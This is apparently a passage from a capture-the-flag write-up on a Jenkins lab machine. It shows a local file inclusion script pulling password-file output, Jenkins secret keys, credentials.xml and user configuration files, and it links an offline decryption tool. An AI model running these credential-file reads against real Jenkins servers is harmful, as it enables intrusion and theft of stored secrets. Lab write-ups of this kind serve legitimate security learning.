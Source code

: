 ```shell
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
```

Reading in some articles and blogs, Jenkins store users credentials which we can attempt to crack if we can access to `master.key`, `credentials.xml` y `hudson.util.Secret`.
- https://github.com/gquere/pwn_jenkins/blob/master/offline_decryption/jenkins_offline_decrypt.py

```shell
❯ python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/secrets/master.key
3e3a8909d274de18b90e8d41789423c041dae2b1132514ac43b9714d62305dfba277b5bcec3a06339d9f111e902b64d063bf2eb322eb641edb846e6c019c95cbc38b849fcc2085d5f220c5b6e5468f97d0397502c6afc5a9a1375d346cd0adf08ebc377f48124b9422e91beb5596cdecd72886d7c7e3816a8c488e0270394347
```

```shell
python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/secrets/master.key > ../content/master.key  
```

```shell
python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/credentials.xml > ../content/credentials.xml
```

```shell
python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/secrets/hudson.util.Secret  > ../content/hudson.util.Secret
```


```shell
❯ ls ../content
 credentials.xml   hudson.util.Secret  󰌆 master.key
```



## Explotation 

> After obtaining these needed files, I tried to crack it but nothing since the exploits appers to only works once you're within the Jenkins instance/docker.

What I did was set up the jenkins docker locally in my attack machine in order to understand how it works talking about sensible file. After a while a realized that users and their credentials are store in `users.xml`. So lets try to dump the `users.xml` file knowing the jenkins directory:

```shell
❯ python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>
      <string>jennifer_12108429903186576833</string>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>jennifer</string>
  <version>1</version>
</hudson.model.UserIdMapper>
  </idToDirectoryNameMap>
<hudson.model.UserIdMapper>
    </entry>
❯ python3 jenkins_lfi.py -u http://10.129.230.220:8080/ -p /var/jenkins_home/users/jennifer_12108429903186576833/config.xml
    <hudson.tasks.Mailer_-UserProperty plugin="mailer@463.vedf8358e006b_">
    <hudson.search.UserSearchProperty>
      <roles>
    <jenkins.security.seed.UserSeedProperty>
      </tokenStore>
    </hudson.search.UserSearchProperty>
      <timeZoneName></timeZoneName>
```